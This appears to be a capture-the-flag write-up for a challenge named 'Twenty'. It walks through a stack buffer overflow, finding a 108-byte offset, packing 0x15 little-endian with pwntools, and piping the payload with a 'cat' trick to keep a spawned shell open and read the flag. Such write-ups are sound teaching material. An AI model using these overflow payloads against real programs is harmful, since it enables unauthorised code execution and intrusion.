 # Twenty

> Simple buffer offerflow involving overwriting `0x0` in memory to `0x15`.

Through trail and error in sending a bunch of `A`s (constantly looking at `dmesg | tail`) we find the offset or padding to be`108`characters. At this offset, we can control the value of`0x0` in memory.

```
python -c "print('A'*108)" | ./twenty
```

Using pwntools, we can find the Little Endian equivalent of `0x15` using the `p64()` function, since the binary is a `64-bit ELF Executable`.

`pwn.p64(0x15)` gives us `'\x15\x00\x00\x00\x00\x00\x00\x00'` in Little Endian.

```
python -c "print('A'*108 + '\x15\x00\x00\x00\x00\x00\x00\x00')" | ./twenty
```

Finally, we see our payload working but the shell getting closed as soon as it opens. This can be fixed by a simple `cat` trick to hold STDIN open so we can interact with the shell.

```
( python -c "print('A'*108 + '\x15\x00\x00\x00\x00\x00\x00\x00')"; cat ) | ./twenty
```

We have our shell. `cat flag.txt` gets us the flag.
